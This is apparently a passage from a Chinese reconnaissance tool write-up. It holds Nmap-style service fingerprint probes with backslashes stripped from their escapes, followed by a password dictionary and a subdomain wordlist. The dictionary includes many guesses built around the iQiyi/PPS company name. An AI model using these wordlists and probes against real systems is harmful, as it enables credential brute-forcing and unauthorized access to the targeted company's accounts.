# http://ftp.rge.com/pub/X/X11R5/contrib/xwebster.README
match webster m/^DICTIONARY server protocol:rnrnContact name is/ v/Webster dictionary server///
##############################NEXT PROBE##############################
Probe TCP SSLSessionReq q|x16x03Sx01Ox03?Gxd7xf7xba,xeexeaxb2`~xf3xfdx82{xb9xd5x96xc8wx9bxe6xc4xdb<=xdboxefx10n(x16x13x0afx05x04edcba`x15x12x09x14x11x08x06x03x01|
ports 427,443,444,548,636,1241,2000,8009
# Apple Filing Protocol (AFP) over TCP on Mac OS X 10.1.5
match afp m|^x01x03xffxffxecQx01.....x80xfb.([-.w]+)[^-.w].*tMacintoshx05x06AFPX03x06AFP2.2x0eAFPVersion 2.1x0eAFPVersion 2.0x0eAFPVersion 1.1.tDHCAST128|s v/Apple AFP//name: $1; protocol 2.2; Mac OS X 10.1.*/
match afp m|^x01x03xffxffxecQx01.....x83xfb.([-.w]+)[^-.w].*tMacintoshx06x06AFP3.1x06AFPX03x06AFP2.2x0eAFPVersion 2.1x0eAFPVersion 2.0x0eAFPVersion 1.1x04tDHCAST128| v/Apple AFP//name: $1; protocol 3.1; Mac OS X 10.2.*;/
# OpenSSL/0.9.7aa
match ssl m|^x16x03Jx02Fx03| v/OpenSSL///
# Microsoft-IIS/5.0 - note that OpenSSL must go above this one because this is more general
match ssl m|^x16x03..x02Fx03|s v/Microsoft IIS SSL///
# Novell Netware 6 Enterprise Web server 5.1 https
# Novell Netware Ldap over SSL or enterprise web server 5.1 over SSL
match ssl m|^x16x03:x02x006x03| v/Novell Netware SSL///
# Cisco IDS 4.1 Appliance
match ssl m|^x16x03*x02&x03xd10:xbd\x8exe3x15x1cx0fZxe4x04x87x07xc0x82xa9xd4x0ex9c1LXkxd1xd2x0bx1axc6/pnx16x03x026x0bx022| v/Cisco IDS SSL///
# Nessus server sometimes gives this answer
match ssl m|^x15x03x02x02($| v/Nessus security scanner///
# Other Nessus instances look like this:
match ssl m|^x16x03x01Jx02Fx03x01?| v/Nessus security scanner///
# PGP Corporation Keyserver Web Console 7.0 - custom Apache 1.3
# PGP LDAPS Keyserver 8.X
match ssl m|^x16x03+x02'x03...?|s v/PGP Corporation product SSL///
# Unreal IRCd SSL
# RemotelyAnywhere
match ssl m|^x16x03*x02&x03?| 
# Timbuktu Pro 6.0.3 on Mac OS X 10.2.6
match svrloc m|^x02x02x12x02enx02$| v/Apple slpd///
# SMB Negotiate Protocol
##############################NEXT PROBE##############################
Probe TCP SMBProgNeg q|xa4xffx53x4dx42x72x08x01x40x40x06x01x81x02PC NETWORK PROGRAM 1.0x02MICROSOFT NETWORKS 1.03x02MICROSOFT NETWORKS 3.0x02LANMAN1.0x02LM1.2X002x02Sambax02NT LANMAN 1.0x02NT LM 0.12|
ports 42,88,135,139,445,1031,1112,5555,5600,27000
match flexlm m|^W.-60.......................|s v/FlexLM license manager///
# Windows 2000 Server Kerberos
# Windows Server 2003 kerberos
match kerberos-sec m/^$/ v/Microsoft Windows kerberos-sec///
# Windows XP SP1
match microsoft-ds m|^.xffSMBrx88x01@@x06x01x11x07.nx01x04x11x01xfdxe3| v/Microsoft Windows XP microsoft-ds///
match microsoft-ds m|^.xffSMBrx88x01@@x06x01x11x07.2x01x04Ax01xfdxf3| v/Microsoft Windows 2000 microsoft-ds///
# Microsoft Windows 2003
match microsoft-ds m|^.xffSMBrx88x01@@x06x01x11x07.2x01x04.x01xfdxf3x01|s v/Microsoft Windows 2003 microsoft-ds///
# Microsoft Windows 2000 Server
# Microsoft Windows 2000 Server SP4
match microsoft-ds m|^.xffSMBrx88x01@@x06x01x11x07.[}2]x01x04Ax01xfd[xe3xf3]|s v/Microsoft Windows 2000 microsoft-ds///
# Microsoft Windows XP SP1
# Windows 2000
match msrpc m|^x05rx03x10x18x08x01@x04x01x05$| v/Microsoft Windows msrpc///
# Windows 2000 Advanced Server c:winntsystem32Mstask.exe
match mstask m|^x05rx03x10x18x08x01@x04x01x05...|s v/Microsoft mstask//task server - c:winntsystem32Mstask.exe/
# Microsoft Windows 2000
# samba-2.2.7-5.8.0 on RedHat 8
# samba-2.2.7a-8.9.0 on Red Hat Linux 7.x
match netbios-ssn m|^.xffSMBrx88x01@x06x01x11x06.*W([-.w]+)$|s v/Samba smbd//workgroup: $1/
# Samba 2.999+3.0.alpha21-5 on Linux
# Samba 3.0.0rc4-Debian
match netbios-ssn m+^.xffSMBrx88x01.@x06x01x11x06.*([^]|([^-A-Z0-9]))(([-w]){2,50})+s v/Samba smbd/3.X/workgroup: $P(3)/
# Samba 2.2.8a on Linux 2.4.20
match netbios-ssn m|^x83x01x81$| v/Samba smbd///
# DAVE 4.1 enhanced windows networks services for Mac on Mac OS X
match netbios-ssn m|^.xffSMBrx02Yx98x01.@x06x01x07|s v/Thursby DAVE Windows filesharing//Runs on Macintosh systems/
# Windows 98
match netbios-ssn m|^x83x01x8f$| v/Microsoft Windows 98 netbios-ssn///
# Netware might just be using Samba?
match netbios-ssn m|^MxffSMBrx80x01@x06x01x11x07x032x01xffxffx01x84xdeux07x01x02x80xaaxa0x83{kxc3x01xa4x01x08x08x8axffpxd3x1d?xdbl$| v/Netware 6 SMB Services///
# Network Appliance ONTAP 6.3.3 netbios-ssn
match netbios-ssn m/^.xffSMBrx98x01@x06x01x11x07.*([^]|([^-A-Z0-9]))(([-w]){2,50})/s v/Network Appliance Ontap smbd//workgroup: $P(3)/
# HP OpenView Storage Data Protector A.05.10 on Windows 2000
# Hewlett Packard Omniback 4.1 on Windows NT
match omniback m|^.xffxfe1x005 x07x01[x001x002:x001] x07x02[x002x000x000x003] |s v/HP OpenView Omniback//Windows version/
# HP OpenView Storage Data Protector A.05.10 on Linux
match omniback m|^.15 x07x01[12:1] x07x02[2003] x07x0510d+ INET |s v|HP OpenView Omniback/Data Protector||UNIX version|
match serversettingsd m|^x004mainx01x0cx0cquitxffxffxffxffcrpt$| v/Apple serversettingsd administration daemon//Mac OS X/
match symantec-esm m|^x01#$| v/Symantec Enterprise Security Manager///
# Windows 2000 Server Wins name resolution service
# Windows NT 4.0 Wins
match wins m|^x1exffSxadx80x01x07xe9x01x81x02| v/Microsoft Windows Wins///
match sap-its m|^x0cx01x03x071x071Content-Type:x20x20text/html;x20charset=Windows-1250rnrn<!--rnx20Thisx20pagex20wasx20createdx20byx20thex20rnx20SAPx20Internetx20Transactionx20Serverx20(ITS,x20Versionx20,x20Buildx20,x20Virtualx20Serverx20)rn| v/SAP Internet Transaction Server///
# From xlsclients
##############################NEXT PROBE##############################
Probe TCP X11Probe q|x6Cx0B|
ports 497,5302,6000-6020,7100,8000
# retroclient 6.5.108 on Linux
match dantzretrospect m|^xcax04x02($| v/Dantz Retrospect backup client///
match font-service m|^x02x06@x0cpx17X Consortiumx01nx01x05......$|s v/Sun Solaris fs.auto///
match font-service m|^x02x0e *.x19The XFree86 Project[-.w() ]+..x01nx01x05......|s v/XFree86 X Font Server///
match networkaudio m|^x19x02x02x07Protocol version mismatch$| v|Network Audio System|||
match networkaudio m|^x19x02x02x07Protocol version mismatch/$| v|Network Audio System|||
match X11 m|^x01x0bHnx19..xffxff?x01x16xffxffx01x04x01x01  x08....Sun Microsystems, Inc.x01x01|s v/XSun Solaris X11 server///
match X11 m|^x2Dx0Bx0C| v///access denied/
# I think the below means access denied (no authentication protocol 
# specified?) or is it a problem w/my probe that I should fix?
match X11 m|^x16x0bx06No protocol specifiedx0a..$|s v///access denied/
match X11 m|^x01x0b....x02.*The XFree86 Project, Inc|s v/XFree86//open/
match X11 m|^x01x0b.....x02..xffxffx1fx01.xffxffx01x07  x08xff....Gentoo Linux (XFree86 (d[^)]+))|s v/XFree86/$1/Gentoo Linux/
match X11 m|^x01x0b.....x02..xffxffx1fx01.xffxffx01.*Mandrake Linux (XFree86 (d[^)]+))|s v/XFree86/$1/Mandrake Linux/
match X11 m|^x01x0b.....x02..xffxffx1fx01.xffxffx01.*Mandrake Linux (XFree86 (d[^)]+))?x01x01|s v/XFree86/$1/Mandrake Linux/
match X11 m|^x01x0bx4CxA0xE0x63x02| v///open/
# StarNet X-Win32 v5.4 on Windows XP
match X11 m|^x01x0bx009...xffxff?x01x1cxffxffx01x07x01x01x08x10x08....StarNet Communications Corp.x01x01|s v/StarNet X-Win32///
match X11 m|^x01x0b=x01xc0x06xffxff?.*DECWINDOWS Digital Equipment Corporation Digital UNIX V(d[-.w]+)x01x01|s v/Digital UNIX X-Window/$1/Version is X Server and not of Digital UNIX/
# tightvnc 1.2.3 Xvnc
# Tightvnc 3.3.3 Xvnc
match X11 m|^x01x0b%x04rx80.xffxff?x01x1bxffxffx01x02  x08xff...x08AT&T Laboratories Cambridge| v/Xvnc///
# Exceed X server for Win32 8.0.0.0
match X11 m|^x01x0bx00...@.xffxff?x01.xffxffx01x04x01x01x08 x08xfe..AHummingbird Ltd.x01x01 .x07x08x08 .x07x0cx0c .x07x18  .x07. xffxffxff| v/Hummingbird Exceed X server/8.X//
match X11 m|^x01x0b.....xffxff?x01.xffxffx01x04x01x01x08 x08xfe..AHummingbird Communications Ltd.x01x01 ...x08x08 ...x0cx0c ...x18  .... xffxffxff|s v/Hummingbird Exceed X server/7.X//
# HP MC/ServiceGuard for Linux A.11.14.02
match X11 m|^x01x0c$| v|HP MC/ServiceGuard|||
match X11 m|^x01x0b%x19x01xffxff?x01x12xffxffx01x02  x08xfexbax1dFLabtam Europe Ltd.x01x01| v/Labtam X-WinPro///
match omninames m|^GIOPx01x01x06$| v/omniORB omniNames//Corba naming service/
##############################NEXT PROBE##############################
# ftp://ftp.rfc-editor.org/in-notes/rfc1179.txt
Probe TCP LPDString q|x01defaultn|
ports 515
match printer m|^$|
match printer m|^default: unknown printern$| v/Solaris lpd///
# Redhat Linux 7.3 LPRng-3.8.9
match printer m|^x01no connect permissionsn$| v/LPRng///
# Microsoft Windows 2000 serverr LPD
match printer m|^x01x01$| v/Microsoft lpd///
# Blackbox Terminal Server (IOLAN v4.03.00 a CDi)
# Chase IOLAN terminal server lpd
# Bay Networks MicroAnnex XL  Comm. Server R10.0
match printer m|^x01$|
match printer m|^[-.w]+: lpsched: unknown printern$| v/SGI IRIX lprsrv///
# Ldap bind request, version 2, null DN, AUTH_TYPE simple, null password
##############################NEXT PROBE##############################
Probe TCP LDAPBindReq q|x30x0cx02x01x01x60x07x02x01x02x04x80|
ports 256,257,389,3892
sslports 636
match fw1-secureremote m|^[AQ][^]| v/Checkpoint Firewall1 SecureRemote///
match fw1-log m|^t51000000[^]|  v/Checkpoint Firewall1 logging service///
# OpenLDAP 2.0.15 on RH Linux 7.3
match ldap m|^0%x02x01x01a nx010x04x04x19anonymous bind disallowed$| v/OpenLDAP//access denied/
# OpenLDAP 2.1.22 - doesn't by default allow LDAPv2 request
match ldap m|^02x02x01x01a-nx01x02x04x04&requested protocol version not allowed$| v/OpenLDAP/2.1.X//
# Netware 6
# Macintosh 8
# Win 2000 Advanced server.
match ldap m|^0x0cx02x01x01ax07nx01x04x04| v///Anonymous bind OK/
# MS Windows Win2K SP4 AD server
match ldap m|^0x84x10x02x01x01ax84x07nx01x04x04$| v/Microsoft LDAP server///
# PGP Corporation PGP Keyserver 7.0 (relabeled Freeware PGP Keyserver 2.5.8)
#  PGP LDAP Server 8.x
match ldap m|^0x17x02x01x01ax12nx01x04x04x0bPGPError #0$| v/PGP Corp. PGP Keyserver///
# OctetString VDE Enterprise Edition on Linux 2.4
match ldap m|^0x0ex02x01x01atnx01x04x04x87$| v/OctetString VDE directory service///
##############################NEXT PROBE##############################
Probe TCP LANDesk-RC q|x54x4ex4dx50x04x54x4ex4dx45x04|
ports 1761
# With Host and User currently logged in
match landesk-rc m|^TNMP.TNME.USER.x08x04x08.{9}Rx03Wxffxff.xfd..x02x01x04...xb5x01xbbDesktop Manager (d.d)x02x04x01x02x01W+([-w]+)([-w]+)$| v/LANDesk RC/$1/Host: $2 User: $3)/
# With just hostname
match landesk-rc m|^TNMP.TNME.USER.x08x04x08.{9}Rx03Wxffxff.xfd..x02x01x04...xb5x01xbbDesktop Manager (d.d)x02x04x01x02x01W+(w+)$| v/LANDesk RC/$1/Host: $2/
# Being Controled w/ User
match landesk-rc m|^TNMP.TNME.USER.x08x04x08.{9}Rx03Wxffxff.xfd..x02x01x04...xb5x01xbbDesktop Manager (d.d)x02x04x01x02x01W+([w.:]+)W+(w+)(w+)$| v/LANDesk RC/$1/Host: $3 User: $4 Controler: $2/
# Being Controled w/o User
#match landesk-rc m|^TNMP.TNME.USER.x08x04x08.{9}Rx03Wxffxff.xfd..x02x01x04...xb5x01xbbDesktop Manager (d.d)x02x04x01x02x01W+([w.:]+)W+(w+)(w+){2,3}$| v/LANDesk RC/$1/Host: $3 Controler: $2/
match landesk-rc m|^TNMP.TNME.USER.x08x04x08.{9}Rx03Wxffxff.xfd..x02x01x04...xb5x01xbbDesktop Manager (d.d)x02x04x01x02x01W+([w.:]+)W+(w+)|s v/LANDesk RC/$1/Host: $3 Controler: $2/
match landesk-rc m|^TNMPx16TNMEx80xfexff..([w.]+):(d)$| v/LANDesk RC//Busy, From $1 on port 176$2/
##############################NEXT PROBE##############################
Probe TCP TerminalServer q|x03x0bx06xe0|
ports 515,3389
# x03 is queue status command for LPD service.  Should be terminated
# by n, but apparently some dumb lpds allow .  For now I will keep
# 515 in the common ports line, I suppose
match printer m/^no entriesn$/ v/Xerox LPD///
# Windows 2000 Server
# Windows 2000 Advanced Server
# Windows XP Professional
match microsoft-rdp m|^x03x0bx06xd0x12.$|s v|Microsoft Terminal Service|||
match microsoft-rdp m|^x03x17x08x02Z~x0bx05x05@x06x08x91Jx02X$| v/Microsoft Terminal Service//Used with Netmeeting, Remote Desktop, Remote Assistance/
match teleconference m|^x03x11x08x02..}x08x03xdfx14x01x01$|s v/Microsoft NetMeeting Remote Desktop Service///
# Netware Create Connection Service request
##############################NEXT PROBE##############################
Probe TCP NCP q|x44x6dx64x54x17x01x11x11xffx01xffx13|
ports 524
# Netware 5 and 6
# NCP "OK" reply
match ncp m|^x74x4ex63x50x10x33x33| v/Novell Netware NCP///
##############################NEXT PROBE##############################
Probe TCP NotesRPC q|x3Ax00x00x00x2Fx00x00x00x02x00x00x40x02x0Fx00x01x00x3Dx05x00x00x00x00x00x00x00x00x00x00x00x00x2Fx00x00x00x00x00x00x00x00x00x40x1Fx00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00|
ports 1352
#match lotusnotes m|^`Ux03@x02x0fx05x009x05.....x03x02/x12|s
# Lotus Domino (r) Server (Release 5.0.8 for Windows/32
# Lotus Notes domino 5.0.11
# Lotus Server 6.0.1
# Lotus Domino (r) Server (Release 6.0.1CF1 for Windows/32
match lotusnotes m|^..x03@x02x0f.*x03x02/.@x1f.*CN=([-.w ]+)/O=([-.w ]+)[^-.w ]|s v/Lotus Domino server//CN=$1;Org=$2/
##############################NEXT PROBE##############################
Probe UDP Sqlping q|x02|
ports 1434
match ms-sql-m m|^x05..ServerName;([w-]+);InstanceName;[w-]+;IsClustered;w{2,3};Version;([d.]+);np;.+;tcp;(d{1,5});| v/Microsoft SQL Server/$2/ServerName: $1; TCPPort: $3/
match ms-sql-m m|^x05..ServerName;([w-]+);InstanceName;[w-]+;IsClustered;w{2,3};Version;([d.]+);tcp;(d{1,5});np;(.+);$| v/Microsoft SQL Server/$2/ServerName: $1; TCPPort: $3/
##############################NEXT PROBE##############################
Probe UDP NTPRequest q|xe3x00x04xfax00x01x00x00x00x01x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00xc5x4fx23x4bx71xb1x52xf3|
ports 123
match ntp m|^$[x01-x0f]..............................................$|s  v/NTP/v4//
match ntp m|^xe4..............................................$|s  v/NTP/v4/unsynchronized/
# Solaris Internet Name Server (42/udp), see ien116.txt
match nameserver m|^helprnrnx20CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!x01| v/Solaris Internet Name Server//IEN 116/
##############################NEXT PROBE##############################
Probe UDP SNMPv1public q|0x82/x02x01x04x06publicxa0x82x20x02x04x4cx33xa7x56x02x01x02x01x30x82x10x30x82x0cx06x08x2bx06x01x02x01x01x05x05|
ports 161
match snmp m|^0.x02x01x04x06publicxa2| v/SNMPv1 server//public/
##############################NEXT PROBE##############################
Probe TCP WMSRequest q|x01xfdxcexfax0bxb0xa0MMSx14x12x01x03xf0xf0xf0xf0x0bx04x1cx03NSPlayer/9.0.0.2980; {0000AA00-0A00-00a0-AA0A-0000A0AA0AA0}xe0x6dxdfx5f|
ports 1549,1755
match shivahose m|^x02x06$| v///Shiva network modem access/
#WMS 4.1.0.3927
match wms m|^x01.xcexfax0bxb0.MMS .{7}.{9}x01x04xf0xf0xf0xf0x0bx04x1cx03xf0?x01x01x80.....x00(d).x00(d).x00(d).x00(d)x00(d)x00(d)x00(d)|s v/Microsoft Windows Media Service/$1.$2.$3.$4$5$6$7//
match wms m|^x01.xcexfax0bxb0.MMS .{7}.{9}x01x04xf0xf0xf0xf0x0bx04x1cx03xf0?x01x01x80.....x00(d).x00(d)x00(d).x00(d)x00(d).x00(d)x00(d)x00(d)x00(d)|s v/Microsoft Windows Media Service/$1.$2$3.$4$5.$6$7$8$9//
##############################NEXT PROBE##############################
Probe TCP oracle-tns q|Zx01x016x01,x08x7FxFFx7Fx08x01 :4xE6x01(CONNECT_DATA=(COMMAND=version))|
ports 1521,1522,1525,1574
match oracle-tns m|^.x02.*TNSLSNR for ([-.+/ w]{2,20}): Version ([-d.]+) - Production|s v/Oracle DB Listener/$2 (for $1)//
##############################NEXT PROBE##############################
Probe UDP xdmcp q|x01x02x01|
ports 177
match xdmcp m/^x01x05...(.+).(.+)/ v/XDMCP/host $1 willing/Status: $2/
match xdmcp m/^x01x06...(.+).(.+)/ v/XDMCP/host $1 unwilling/Status: $2/
### do not slow down the scan
#Probe TCP mydoom q|x0dx0d|
#ports 3127-3198
#match mydoom m|x04x5b| v/MyDoom virus backdoor/v012604//
#Probe TCP WWWOFFLEctrlstat q|WWWOFFLE STATUSrn|
#ports 8081
#match http-proxy-ctrl m|^WWWOFFLE Server Statusn-*nVersion *: (d.*)n| v/WWWOFFLE proxy control/$1//

```

然后就是常见的用户名，top100密码等等，还有一份单独的密码字典 
``` 
""
0
000
00000
000000
0000000
00000000
000000000
0000000000
00001111
007007007
010203
0123456
0123456789
05962514787
098765
0987654321
0okm
0p9o
0p9o8i
0p9o8i7u
0p9o8i7u6y
0p9o8i7u6y5t
0p9o8i7u6y5t4r
0p9o8i7u6y5t4r3e
0p9o8i7u6y5t4r3e2w
0p9o8i7u6y5t4r3e2w1q
0r4cl3
1
100200
100200300
10101010
110110
110110110
110120119
111111
1111111
11111111
111111111
1111111111
11111111111111111111
11112222
111222
111222333
112233
11223344
1122334455
112233445566
11235813
1123581321
121212
12121212
123
123!@#
123000
12301230
123123
123123123
123321
123321123
123321123321
1233211234567
123321aa
1234
1234%^&*
12341234
12344321
12345
1234554321
123456
123456!@#$%^
123456.
12345600
12345612
123456123
123456123456
123456654321
1234567
12345678
123456789
123456789.
1234567890
1234567890!@#$%^&*()
1234567890)(*&^%$#@!
12345678910
123456789a
12345678a
12345679
1234567a
1234567b
123456987
123456a
123456aa
123456aaa
123456ab
123456abc
123456asd
123456q
123456qq
123456qwe
12345qwert
12348765
12348765007007007
1234abcd
1234.asd
1234@asd
1234qwer
1234rewq
123654
123654789
123654qwe
123654re
123654tak
12369874
123698745
123789
123789456
123abc
123asd
123@asd
123asd;
123@asd1QAZ
123linux
123qwe
123!@#qwe
123qweasd
123qwe!@#QWE
123qwerty
123server
123test
123zxc
123zxcasd
123zxcvbnm
124sdg
12qawsED!@
12qw3e
12qwaszx
1314520
13145200
1314521
135792468
1357924680
147258
147258369
147852369
147896325
159357
159753
168168168
1a2b3c4d
1i2o3p
1p2o3i
1p2o3i4u
1p2o3i4u5
1q2w3e
1q2w3e1q2w3e
1q2w3e4
1q2w3e4r
1q2w3e4r5
1q2w3e4r5t
1q2w3e4r5t6y7u
1q2w3e4r5t6y7u8i
1q2w3e4r5t6y7u8i9o
1qa2ws
1qa2ws3ed
1QA2WS3ED
1qa2ws3ed4rf
1qa2ws3ed4rf!QA@WS#ED$RF
1qa2ws3ed!QA@WS#ED
1qa2ws3ed$RF
1qa2ws#ED4rf
1qa2ws#ED$RF
1qa2ws!QA@WS
1qa@WS3ed$RF
1qaz2ws
1qaz2wsx
1QAZ2WSX
1QAZ2WSX3EDC
1qaz2wsx3edc4rfv5tgb
1qaz2wsx3edc4rfv5tgb6yhn
1qaz2wsx3edc4rfv5tgb6yhn7ujm
1qaz9ol.
1qazx
1qazxcde32
1qazXSW@
1qazxsw2
1qazxsw23edc
1qazxsw23edcvfr4
1qazXSW@3edc
1qazXSW@3edcVFR$
1qiyicl0ud
1z2x
20082008
20092009
201314
2013year
222222
2222222
22222222
25257758
299792458
2wsx3edc
2wsx9ol.
2wsxdr5
31415926
3.1415926
321321321
321654987
33333
333333
33333333
333333333
3333333333
369258147
369369369
3edc9ol.
444444
44444444
456852
4rfv9ol.
5201314
5201314520
52013145201314
520520
520520520
5211314
521521
521521521
555555
55555555
56789tyuio!
567rty
584131421
5845201314
5845211314
5t6y7u
5tgb9ol.
654321
66666
666666
6666666
66666666
666666666
6666666666
66668888
6yhn9ol.
6yhnm,ki87
741852963
7758258
7758521
77585210
777777
77777777
789456123
789789789
7hur@y@t3am$#@!(*(
7ujm9ol.
7ujm.lo9
87654321
888888
88888888
888888888
8888888888
8ik,9ol.
963852741
987654321
9876543210
999999
99999999
999999999
9ol.0p;/
9ol.)P:?
9ol.)P:?;
a111111
a1111111
a123123
a12345
a123456
a1234567
a12345678
a123456789
a1b2c3d4
aa123456
aaa111
aaa123456
aaaa1111
AAAAAA
aaaaaaaa
aaaaaaaaa
aaaaaaaaaa
abc123
abc12345
abc123456
Abc123456
abcabc
Abcd@123
abcd1234
abcdefg007007007
abcdefgh
access
adm
admin
admin!@#
ADMIN
admin000
admin111
admin12
admin.123
admin@123
Admin123
aiqiyi
ANALYSIS&all456
andrew123
angel123
angela
answer
apache123
appserver
aptx4869
as123456
asd123
asd@123
asd123456
asdasd
asdasdasd
asdf1234
asdfasdf
asdfghjk
asdfghjkl
asdfgqwert
asdfqwer
attack
bash
Bmflsz8q8H
buzhidao
calvin
caonima
change
changed
changeit
changeme
check
chinese
cisco
cisco123
code8925
computer
csdncsdn
cxzasd
cxzasdewq
cxzasdewq!@#
cxzasdewq123
data
database
db
dddddddd
ffffffff
founderbn
ftp
fuck
fuck123!!
fuckyou
goodluck
google250
grouter
guest123
h123123a
haihuan
helloworld
hitech
idc123,abc
iloveyou
iqi1i
iqi!i
iqi$i
iqiii
iqili
iqiyi
iqiyi01
iqiyi1
iqiyi10
iqiyi1000
iqiyi11
iqiyi1100
iqiyi12
iqiyi1200
iqiyi123
iqiyi_123
iqiyi@123
iqiyi123456
iqiyi@123456
iqiyi1300
iqiyi1400
iqiyi1500
iqiyi1600
iqiyi1700
iqiyi1800
iqiyi1900
iqiyi1999
iqiyi_1999
iqiyi2
iqiyi2000
iqiyi_2000
iqiyi2001
iqiyi_2001
iqiyi2002
iqiyi_2002
iqiyi2003
iqiyi_2003
iqiyi2004
iqiyi_2004
iqiyi2005
iqiyi_2005
iqiyi2006
iqiyi_2006
iqiyi2007
iqiyi_2007
iqiyi2008
iqiyi_2008
iqiyi2009
iqiyi_2009
iqiyi2010
iqiyi_2010
iqiyi2011
iqiyi_2011
iqiyi2012
iqiyi_2012
iqiyi2013
iqiyi_2013
iqiyi2014
iqiyi_2014
iqiyi2015
iqiyi_2015
iqiyi2114
iqiyi3
iqiyi4
iqiyi456
iqiyi@456
iqiyi5
iqiyi6
iqiyi7
iqiyi8
iqiyi9
iqiyiletmein
iqiyipass
iqiyi.pps
iqiyi@pps
iqiyiqiyi
IT@iqiyi.pp$
kingcom5
kukumalu123*
lb851210
lilylily
linux123
localh0st
mail
manager
manager123
master123
mysql
newhappy
nopass
null
oracle01
oracle1
order
p0o9i8u7
p0o9i8u7y6
p0stgr3s
p455w0rd
p4ssw0rd
p4ssword
P4$$w0rd
p4$$word
p@55word
pa55w0rd
pass!@#
pass!@#$
pass0000
pass1111
pass123456
pass1234567
pass12345678
pass123456789
pass321
passpass
passw0rd
passwd!@#
passwd123
passwd12345
passwd123456
passwd321
password
p@assword
password!@#
password0000
password1
password1111
password12
password12345
password1234567
password12345678
password123456789
password321
passw@rd
Pa$$w0rd
pa$$word
pengyou
permit
pps
pps123
pps@123
pps123!
pps123!@#
pps123456
ppspps
ppspps123
ppstream
p@ssw0rd
P@ssw0rd
p@ssw0rd1
p@ssw0rd123
p@ssw0rd!23
p@ssword
p@ssword1
P@ssword123
public
P@$$w0rd
q123456
q123456789
q1w2e3r4
q1w2e3r4t5
q1w2e3r4t5y6
q1y1&PP$!@#
!Q2w3e4r5
!QA@WS
!QA@WS#ED
qawsed123!@#
qawsedrf
!QA@WS#ED$RF
qawzse
qaz123
qaz123456
qazwsx
!qaz@wsx
!QAZ@wsx
!QAZ@WSX
qazwsx12
qazwsx123
qazwsxedc
!qaz@wsx#edc
!QAZ@WSX#EDC
qazwsxedcrfv
qazwsxedcrfvtgbyhn
qazwsxedcrfvtgbyhnujm
!qazxsw2
qazxswedc
qi1i
qi!i
qi$i
qiii
qili
qiyi
qiyi!@#
Qiyi
QIYI
qiyi01
qiyi1
qiyi10
qiyi1000
qiyi11
qiyi1100
qiyi12
qiyi1200
qiyi123
qiyi_123
qiyi!@#123
qiyi@123
Qiyi.123
Qiyi@123
QiYi123
QiYi.123
QiYi@123
QiYI123
QIYI123
Qiyi1234
Qiyi@1234
qiyi123456
qiyi@123456
Qiyi@123.asd#
qiyi1300
qiyi1400
qiyi1500
qiyi1600
qiyi1700
qiyi1800
qiyi1900
qiyi1999
qiyi_1999
qiyi2
qiyi2000
qiyi_2000
qiyi2001
qiyi_2001
qiyi2002
qiyi_2002
qiyi2003
qiyi_2003
qiyi2004
qiyi_2004
qiyi2005
qiyi_2005
qiyi2006
qiyi_2006
qiyi2007
qiyi_2007
qiyi2008
qiyi_2008
qiyi2009
qiyi_2009
qiyi2010
qiyi_2010
qiyi2011
qiyi_2011
qiyi2012
qiyi_2012
Qiyi!@#2012
qiyi2013
qiyi_2013
Qiyi!@#2013
qiyi2014
qiyi_2014
qiyi2015
qiyi_2015
qiyi2114
qiyi3
Qiyi321
QIYI321
qiyi4
qiyi456
qiyi@456
qiyi5
qiyi6
qiyi7
qiyi8
qiyi9
qiyiadmin
qiyiandpps
Qiyi#dot1q
qiyiletmein
qiyipass
qiyi_pay
qiyipps
qiyiqiyi
qiyu.asd
qq111111
qq123123
qq123456
qqq11111
qqqqqq
qqqqqqqq
!@qwaszx
!@#QWE
Qwe@111
Qwe@111.
qwe123
qwe123456
qweasd
!@#QWEASD
qweasd123
qweasdzxc
qweasdZXC123
qweqwe
qweqwe123
qweqweqwe
!Q@W#E$R
qwer1234
qwerasdf
!q@w#e$r%t
qwert12345
qwerty
qwerty123456
qwertyui
qwertyuiop
root
root1
root123
root12345
rpm
sa
sa123
samba
samsung
sasa
sasasa
scanner
scott
secret
server
ssssssss
sunshine
<<< %s(un='%s') = %u123456
superman
superuser
system
test
test123
test1234
test2
teste2
testuser
TickQiyi
tomcat123
toor
upload
user
video
vincent
vpn333
w123456
w7w8w9
web
wiii2dsE
woaini
woaini123
woaini1314
woaini520
woainima
woaiwojia
wocaonima
wodemima
wojiushiwo
woshishui
wqsaxz
www
www.iqiyi.com
wwwwwwww
xiaoxiao
xiazhili
xxxxxxxx
yangyang
z123456
z123456789
z12xc3
z1a1q1
z1x2
z1x2c3
z1x2c3v4
z1x2c3v4b5
z1x2c3v4b5n6
zabbix123
zaq12wsx
zaq1xsw2
ZAQ!2wsx
zaq!@wsx
zaqxswcde
zdxfcgvh
zenith
zghiole
zh3I5LiK3P4rtY@v3r
zhang123
zhangwei
zl0passw0rd
Zmeu
zmxncbv
zx12zx
!z@x#c
zxc123
zxc1234
zxc123456
zxc321
zxcasdqwe123
zxcdsaqwe321
zxcmnb
zxcv
zxcv1234
zxcv4321
zxcvasdf
zxcvasdfqwer
ZXCVASDFQWER!@#$
zxcvasdfqwer1234
zxcvb
ZXCVB
zxcvb54321
zxcvbasdfg
zxcvbn
zxcvbn123456
zxcvbnm
zxcvbnm,
zxcvbnm,./
zxcvbnm123
zxcvbnmasdfghjkl
zxcxz
zxczxc
zxczxczxc
zxmn
zzzzzzzz

```

子域名字典 
``` 
cs
pandora
pda
fw
app1
wwwtest
business
ca
123
bc
dns2
learn
movie
reports
calendar
white
upl
ns2
ntp
ww2
stg
portal
gw
2012
bi
campus
view
ns7
conf
map
upload
v
stat
gs
ns8
internet
msg
tw
fs
usa
sport
hermes
ww
blog
tmp
ares
bt
hd
ns3
ct
signup
support
gold
moon
audio
cm
test
io
email
counter
vpn
reg
sc
jobs
www10
autoconfig
help
sa
img
ad
pos
users
flash
cam
f
cb
as
pr
sms
crm
im
sales
login
my
alpha
net
u
member
fashion
dev
dating
ir
ms
master
webdisk
m1
adv
com
tr
ns6
webdev
sandbox
smart
law
mt
faq
research
training
ns9
logs
xmpp
git
fc
ask
wwww
cdn
trade
rss
win
system
s3
sites
sky
job
sm
ip
dev2
ims
3g
account
server
i
live
st
ee
www6
shop
sun
pay
docs
webserver
hn
bb
finance
pe
vega
biz
pp
client
hotel
mx4
ams
office
space
delta
mm
demo
db
payment
market
g
meeting
red
china
corp
ac
download
free
web2
king
fb
sp
www8
webcon
nova
hydra
spam
love
security
av
mx
mx1
ssl
api
earth
gate
ent
ns
global
mp3
wms
work
play
ems
mms
hr
photo
mb
bugs
android
user
dns
edm
lab
jira
